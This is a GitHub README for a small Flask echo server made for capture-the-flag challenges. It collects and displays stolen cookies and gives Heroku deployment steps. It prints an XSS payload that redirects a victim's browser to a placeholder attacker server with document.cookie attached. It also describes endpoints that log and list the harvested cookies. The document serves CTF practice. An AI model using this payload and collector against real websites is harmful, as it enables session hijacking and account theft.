


# flask-echo-server

A simple echo server built with flask for CTF

## echo
> Removed options; Just minimal echo server left.



## cookies
> Farm and view cookies fast!

### farm cookies
Sending a request to `/c?c=COOKIE` adds `COOKIE` to `cookie.txt` in the same directory with `echo.py`.

The following script sends all the accessible cookies in the current document to the server(Can be used in XSS challenges).
```HTML
<script>location.href = "SERVER_URL/cookie?c=" + document.cookie;</script>
```

### view collected cookies
Open a browser and go to `/v` and view collected cookies.



The screenshot above is the result after I sent `C00K1E-M0n$T3R!!!` three times.

## deploy on heroku

```
$ git clone https://github.com/JunhoYeo/flask-echo-server.git
```
Clone this application using git.

```
heroku login
```
After downloading the Heroku CLI, run and log in to your account.

```
heroku create APPNAME # create new Heroku app
heroku git:remote -a APPNAME # set to existing Heroku app
```
Create or set git remote to existing Heroku app.

```
git add . 
git push heroku master
```
Add files and push to master

Your server will be running at `APPNAME.herokuapp.com`.

And congrats, it's over! You can use [Heroku Fixie](https://devcenter.heroku.com/articles/fixie) to retrieve static IP addresses about your app. 
